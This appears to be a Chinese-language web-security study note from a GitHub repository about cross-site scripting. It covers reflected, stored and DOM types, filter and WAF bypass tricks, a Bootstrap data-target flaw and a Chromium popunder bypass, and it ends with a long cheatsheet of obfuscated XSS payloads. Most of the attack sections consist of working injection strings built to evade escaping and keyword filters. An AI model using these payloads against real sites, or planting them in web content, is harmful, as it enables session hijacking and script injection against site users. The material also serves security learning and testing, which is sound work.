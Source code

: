 # Cross-Site Scripting  
[同源策略](https://github.com/shinmao/Web-Security-Learning/blob/master/XSS/Same-Origin%20Policy.md)    
1. reflected xss (非持久型):  
`<?php echo 'xss, '.$_GET['script']; ?>`

2. stored xss (持久型):  
Forum或者留言板中, 在文本中加入script. (前端可能用ajax讀取內容  
`<?php echo 'xss, '.$DB_value; ?>`

3. DOM xss: 最近の流行り  
通過DOM操作觸發

注意: reflective型 以及 stored型 才會與server有互動，因為server需要解析惡意代碼，而DOM型則是完全由客戶端js執行。  
  
*  [XSS detection](#xss-detection)  
*  [常見限制 and 對抗手勢](#常見限制-and-對抗手勢)  
*  [正規表達式](#正規表達式)  
*  [攻擊手勢](#攻擊手勢)  
*  [popunder彈窗手勢](#彈窗手勢)  
*  [Cheatsheet](#cheatsheet)    
*  [Reference](#reference)

# XSS detection
這裡先不談XSS探針...  
我習慣直接注入sciprt語句作測試，常見語句如下:  
```js
<script>alert(/1/);<script>
<a href=1 onload=alert(1)>hi</a>
```
在這裏個人認為較重要的是分析注入點對網頁產生的影響，我注入的惡意代碼沒有作用可能有兩種原因：  
1. 網頁不存在可利用的xss漏洞，可能注入點直接將值插入網頁作為內容  
2. 惡意代碼被過濾掉，或者轉譯了 -> 這種情況下就要分析有沒有代替字元來繞過過濾名單，或者繞過轉譯！

# 常見限制 and 對抗手勢
* 大小寫混用  
* toUpperCase()  
```js
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k
```
* 一次過濾繞過  
```php
str_replace('<script>','',$GET['hi'])  //這裏代表hi中的<script>會變空字串
// <scr<script>ipt> 
```  
* 使用正規表達式高效率的過濾  
```php
preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['hi'])   // 大寫小寫一次繞過全都會被擋掉
// <img src=1 onerror=alert(1)>
```
* encode 轉譯危險標籤  
  * url encode: `% + ASCII(hex) %3Cscript%3E`  
  * http://www.jsfuck.com/  
  補充js常見處理函式: `escape()/unescape()`, `encodeURL()/decodeURL()`, `encodeURLComponent()/decodeURLComponent()`  
  * html encode
  ```php
  htmlspecialchars($_GET['hi']);  // 會將特殊字元通通轉譯掉 
  // 這種情況下將無法再進行注入
  ```  
  * unicode encode: %u + ASCII(hex)  
  * ascii encode
  ```js
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
  // <script>alert(1)</script>
  ```
  [Encode_tool](http://monyer.com/demo/monyerjs/)  
  String.fromCharCode() 將unicode字碼轉換成字串 [Manual](https://www.w3schools.com/jsref/jsref_fromCharCode.asp)  
  eval() 執行參數中的js語句 [Manual](https://www.w3schools.com/jsref/jsref_eval.asp)  
* length limit  
  * 外部引入自己的script `<script src=".js"></script>`  
* 未過濾`\n`類符號  
```js
<img src="javas
cript:
alert(/1/);">
```
* XSS filters  
* WAF  
* HTML Sanitizer  
* CSP(Content-Security-Policy)

# 正規表達式
js中會用正規表達式來過濾危險字符  
```js
/g -> 全局匹配
/i -> case insensitive
```
參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

# 攻擊手勢  
* 不同的`<tag>`做利用  
```js
// script
<script>a=prompt;a(1)</script>

// img
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">

// svg
<svg/onload=alert(1)>

// body
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29’;>   
// 這種payload也可以繞過括號過濾
```
* DOM based XSS  
```js
<script>document.getElementById("contents").innerHTML=location.hash.substring(1);</script>
// #之後的內容不會被傳送到server端
```
* bootstrap data-* 屬性  
```js
<script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>
<button data-toggle="collapse" data-target="<img src=x onerror=alert(0)>">Test</button>

// 關於這個漏洞的解釋issue中有一個評論很清楚
<button data-toggle="collapse" data-target="<?=htmlspecialchars($_GET['x']);?>">Test</button>
// 雖然有參數可控但是htmlspecialchar轉義，這本該是安全的，但是會在bootstrap環境下data-target的屬性中觸發
```
值得注意的是`data-target`本身不會造成xss漏洞，而是被帶到boostrap的環境下發揮效用的！  
[XSS in data-target attribute #20184](https://github.com/twbs/bootstrap/issues/20184)  
* Vue.js


# 彈窗手勢
現在大部分的瀏覽器都禁止未禁用戶允許的彈窗了  
@MasatoKinugawa 發現一個bypass限制的技巧：  
```js
<script>
onkeydown=function(){
    window.open('//example.com/','_blank','a');
}
onkeypress=function(){
    window.open('about:blank','_blank').close();
}
```
以上效果可瀏覽 https://vulnerabledoma.in/popunder/keyevent.html  
[Popunder restriction bypass with keydown and keypress event](https://bugs.chromium.org/p/chromium/issues/detail?id=836841)

# Cheatsheet
```php
</script>"><script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>         // 協議解析
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><script>al\u0065rt(document.domain)</script>
"><script>al\u{65}rt(document.domain)</script>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>
```
上面的cheatsheet除了有brutexss原有的payload還有一些自己蒐集的!  
[Brute XSS payload by Pgaijin66](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt)  

# Reference
1. The Web Application Hacker's Handbook  
2. [看雪](https://www.kanxue.com)  
3. [烏雲](http://wps2015.org/drops/drops/Bypass%20xss%E8%BF%87%E6%BB%A4%E7%9A%84%E6%B5%8B%E8%AF%95%E6%96%B9%E6%B3%95.html)  
4. [云淡风轻](http://blog.idhyt.com/2014/10/15/technic-xss-bypass/)  
5. [freebuf](http://www.freebuf.com/articles/web/153055.html)  
6. [BruteXSS](https://github.com/shawarkhanethicalhacker/BruteXSS)  
7. [PayloadAllTheThings by swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)  
